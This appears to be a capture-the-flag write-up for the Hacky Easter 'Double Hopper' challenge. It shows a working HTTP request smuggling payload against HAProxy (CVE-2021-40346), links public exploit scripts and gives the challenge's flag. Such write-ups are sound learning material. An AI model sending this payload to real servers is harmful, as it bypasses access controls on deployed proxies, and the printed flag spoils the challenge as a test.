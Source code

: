 # Challenge "Double Hopper"
![Banner Image](banner.jpg)

Double hopper will not show you a double whopper.

[Double Hopper web site](http://ch.hackyeaster.com:2406/)

Note: The service is restarted every hour at x:00.

[config.txt](config.txt)

# Solution
The [config.txt](config.txt) file suggests a HAProxy web server configuration. Searching for path configuration vulnerabilities for that kind of server suggests the following possible exploit: https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

By using this approach, we see the flag path: https://github.com/alexOarga/CVE-2021-40346/blob/main/payload

[payload](payload)

    POST /index HTTP/1.1
    Host: ch.hackyeaster.com:2406
    Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa: 
    Content-Length: 23

    GET /flag HTTP/1.1
    h: GET /index HTTP/1.1
    Host: ch.hackyeaster.com:2406


Output in HTML:

    <img src="/static/flag-55a8408e060a25096eb95be8b86f3a2c66f91193.png"/>

With this script and some adjustments, we can then download the flag.png https://github.com/alikarimi999/CVE-2021-40346/blob/main/exploit.py:

[solver.py](solver.py)

![flag.png](flag.png)

## The flag
    he2024{Smu66l1m6_4ll_th3_t1m3!}
